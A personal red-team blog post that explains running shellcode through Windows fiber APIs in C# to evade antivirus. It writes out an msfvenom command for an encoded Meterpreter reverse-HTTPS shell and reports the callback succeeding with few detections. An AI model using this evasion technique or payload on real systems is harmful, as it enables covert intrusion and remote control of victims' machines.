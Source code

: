 ```yaml
---
layout: post
title: 'AV Evasion Part 3: Fibers'
category: evasion
---
```


I was talking to some developer friends the other day about some of their personal projects and one of them mentioned fiber usage.  This was a new concept to me and asked what they were talking about and it lead down a big rabbit hole of research.

To summarize fibers, a fiber can be summarized as a thread inside of a thread.  A thread can be thought of as a way of an application to run action in parralel.  A fiber is this concept again but smaller.  Better more in depth explanation of threads can be found [here](https://docs.microsoft.com/en-us/dotnet/standard/threading/threads-and-threading) and official documentation of fibers can be found [here](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)

If threads sound familiar to the reader, you may recall the [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) Windows API used in [AV Evasion Part 1](https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/).  Fibers give us an alternative way to execute shellcode on a host in a manner that AntiVirus is not used to scanning.


First, let's get a baseline from our first payload using threads.
<img src='https://0xhop.github.io/images/evasion3/baseline.PNG'>

10/26 isn't horrible and the payload aged surprisingly well.

We will continue to use c# in this demonstration as it is easy to work in and well documented.  languages such as Boo and Nim work just as well.
Just like the first post, we will use functions from [P/Invoke](https://pinvoke.net).  The following functions will be used. 


 * [ConvertThreadToFiber](https://pinvoke.net/default.aspx/kernel32/ConvertThreadToFiber.html) - This creates a fiber out of the main Thread.
 * [VirtualAlloc](http://pinvoke.net/default.aspx/kernel32/VirtualAlloc.html) - Create an executable piece of memory.
 * [CreateFiber](http://pinvoke.net/default.aspx/kernel32/CreateFiber.html) - To spawn and a fiber for our shellcode after VirtualAlloc allocates a buffer. 
 * [SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber) - To execute our fiber and shellcode.  As of the time of writing this, SwitchToFiber does not have a P/Invoke entry but it is easy enough to create our own as it only takes one argument.
 
We will reuse the code from [AV Evasion Part 1](https://github.com/0xHop/Evasion1) as a base and remove the check for the process name.


First, let's update the function imports and get the required functions listed above inside our code as shown in the below image.  The DllImport call was modified as P/Invoke could not resolve the lpFiber StartAddress type so we opt to use an IntPtr.  

<img src='https://0xhop.github.io/images/evasion3/imports.PNG'>

We can now implement the calls to create our runner.

First we generate our shellcode.  This example will use metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth1 LPORT=443 -f csharp -e x64/xor_dynamic
```


The first thing we need to do is declare our master thread as a fiber.  We make our call to ConvertThreadToFiber to start with a null Int Pointer.  A null value tells the function to convert the main thread to a fiber.
The code stays the same for a bit until we get to our section to create the fiber.  We will provide the following arguments.  A 0 for the function to calculate the stack size for us, a pointer to our VirtualAlloc call as the starting memory address to create the Fiber and a IntPtr.Zero as we don't need any parameters.

Finally we will execute our fiber with SwitchToFiber with an argument to our newly created fiber.

The final code can be viewed below.
<img src='https://0xhop.github.io/images/evasion3/code.PNG'>

Finally the moment of truth, does it work.  Thankfully, it seemed to call back to metasploit for a shell
<img src='https://0xhop.github.io/images/evasion3/msf.PNG'>

This is cool and all, but how is it doing against AntiVirus?
<img src='https://0xhop.github.io/images/evasion3/Results.PNG'>

Only 2 detection, GREAT SUCCESS!

This shows the power of finding new methods of doing things.  It only takes a bit of creativity to evade AntiVirus and is in serious need for red teams hiring right now.


This concluses part three of my AV Evasion writeup. 

"Hop" to see everyone next time. 
